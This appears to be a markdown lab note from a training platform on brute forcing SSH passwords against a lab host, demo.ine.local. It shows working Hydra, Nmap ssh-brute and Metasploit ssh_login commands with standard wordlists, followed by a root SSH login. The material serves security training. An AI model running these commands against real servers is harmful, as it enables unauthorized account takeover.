 # Online Brute Force & Password Cracking

### Hydra

-l USERNAME
-P PASSWORD_LIST
```
hydra -l "student" -P /usr/share/wordlists/rockyou.txt.gz ssh://demo.ine.local
```

![1.1](./imgs/1.1.png)

### Nmap

-p PORT
```
echo "administrator" > user.lst
nmap -p 22 --script ssh-brute --script-args user="administrator",passdb=/usr/share/nmap/nselib/data/passwords.lst demo.ine.local
```

![2.1](./imgs/2.1.png)

### Metasploit

```
use auxiliary/scanner/ssh/ssh_login
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set RHOSTS demo.ine.local
set RPORT 22
set VERBOSE true
set STOP_ON_SUCCESS true
exploit
```

![3.1](./imgs/3.1.png)

```
ssh root@demo.ine.local
```

![3.2](./imgs/3.2.png)